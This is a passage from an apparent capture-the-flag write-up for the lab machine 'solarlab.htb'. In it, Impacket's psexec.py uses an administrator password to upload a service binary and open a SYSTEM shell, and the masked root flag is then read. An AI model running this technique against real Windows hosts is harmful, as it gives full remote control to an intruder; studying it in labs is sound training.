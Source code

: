 ```

oxdf@hacky$ psexec.py solarlab.htb/administrator:'ThisPasswordShouldDo!@'@solarlab.htb powershell
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Requesting shares on solarlab.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vlfVSrWF.exe
[*] Opening SVCManager on solarlab.htb.....
[*] Creating service kEIH on solarlab.htb.....
[*] Starting service kEIH.....
[!] Press help for extra shell commands
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
nt authority\system

```

And grab the flag:

```

PS C:\users\administrator\desktop> cat root.txt
adc9cfdd************************

```